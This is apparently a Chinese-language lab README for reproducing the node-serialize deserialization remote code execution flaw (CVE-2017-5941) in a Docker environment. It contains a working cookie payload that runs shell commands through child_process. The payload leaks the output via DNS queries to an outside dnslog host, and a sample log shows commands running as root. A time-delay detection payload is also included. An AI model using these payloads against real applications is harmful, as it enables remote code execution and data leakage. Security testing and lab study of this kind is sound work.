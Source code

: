 ## Node.js node-serialize 反序列化过程代码执行漏洞（CVE-2017-5941）

### 漏洞信息

 * [Exploiting Node.js deserialization bugfor Remote Code Execution(CVE-2017-5941)](https://www.exploit-db.com/docs/41289.pdf)
 * [Node.js 模块 node-serialize 反序列化任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-92674)

### 漏洞分析

参见漏洞信息原文分析

### 镜像信息

类型 | 路径 | 
:-:|:-:|:-:
Web 路径 | / | 
Web 物理路径 | /htdocs |
Nodejs 路径 | /opt/node/ |

### 获取环境:

 ```
$ docker-compose up -d
 ```
访问: `http://ip:8000/` 出现 Web 登录界面代表成功

### 使用与利用

由于该漏洞无回显（如果使用 throw 方式来回显，有时会造成服务宕机，慎用），所以PoC中提供了通过延时的方式来检测的 PoC。而Exp中采用 DNSLog 形式来得到命令回显


#### Exp 使用

1. 打开Demo站点

 > 该Demo站点是在用户输入密码后将用户名和密码保存在 Cookie 中，下次进入时会通过将Cookie反序列化

2. 在登录框中，任意一个输入框（推荐密码框）处输入如下 Payload, 并点击按钮

 ```
_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 3 `whoami`.`date +%s`.test.dnslog.link')}()
 ```
3. 打开 [DNSLog](http://admin.dnslog.link)，输入账号 `test` 密码 `123456` 进入 test 账号查看执行结果如下：


 - |  host   | type   | date
:-:|:-:|:-:|:-:
74567 | root.1487079354.test.dnslog.link.  | A  | 2017-02-14 21:35:56
74568 |  root.1487079354.test.dnslog.link. |  A  | 2017-02-14 21:35:57

 可以看到`whoami`和`date`命令均被执行，根据结果可知当前用户为 `root`

#### PoC 使用

通过延时的方式来检测的 PoC，适用于不能使用 dnslog 的情况下使用

```
_$$ND_FUNC$$_function (){for(var start = +new Date; +new Date - start <= sleepTime; ) {}}(sleepTime=15000)
```

> 由于 Node.js 中没有 sleep 函数，所以模拟一个

### 参考链接

 * [Exploiting Node.js deserialization bugfor Remote Code Execution(CVE-2017-5941)](https://www.exploit-db.com/docs/41289.pdf)
 * [Node.js 模块 node-serialize 反序列化任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-92674)
